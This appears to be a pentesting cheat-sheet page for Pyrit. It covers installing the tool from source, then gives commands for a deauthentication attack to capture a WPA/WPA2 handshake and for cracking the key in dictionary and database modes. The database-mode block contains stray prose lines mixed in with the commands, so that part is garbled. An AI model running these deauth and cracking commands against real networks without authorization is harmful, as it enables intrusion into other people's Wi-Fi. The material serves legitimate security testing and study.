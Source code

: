# Pyrit Attack (WPA/WPA2)

A GPGPU-driven WPA/WPA2-PSK key cracker

Pyrit exploits the computational power of many-core- and GPGPU-platforms to create massive databases, pre-computing part of the WPA/WPA2-PSK authentication phase in a space-time tradeoff. It is a powerful attack against one of the world's most used security-protocols

## Setup

Pyrit is no longer installed on Kali by default. Also `apt install pyrit -y` does not work. Pyrit still uses Python2.

```bash
cd
sudo apt update -y
sudo apt install git python2-dev libssl-dev libpcap-dev -y
git clone https://github.com/JPaulMora/Pyrit.git --depth=1
sed -i "s/COMPILE_AESNI/COMPILE_AESNIX/" Pyrit/cpyrit/_cpyrit_cpu.c
cd Pyrit
python2 setup.py clean
python2 setup.py build
sudo python2 setup.py install
cd ..
pyrit -h
```

## Commands

```bash
# Monitor and save packets while doing a deauthentication attack
sudo airmon-ng start $DEVICE $CHANNEL
pyrit -r $INTERFACE -o $PCAP stripLive
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE
```
```bash
# Crack the secret in dictionary mode
pyrit -r $PCAP -i $WORDLIST -b $BSSID attack_passthrough
```

```bash
# Crack the secret in database mode
pyrit -i $WORDLIST import_passwords
password in pyrit with database mode
pyrit -e <ESSID> create_essid
point to the pyrit database
pyrit batch
pyrit -r $CAPTURE -b $BSSID attack_db
```

## References

* [GoLinuxCloud Install on Kali](https://www.golinuxcloud.com/install-pyrit-in-kali-linux/)
* [Pyrit GitHub](https://github.com/JPaulMora/Pyrit)
* [Null Byte](https://null-byte.wonderhowto.com/how-to/crack-wpa-wpa2-wi-fi-passwords-with-pyrit-0196782/)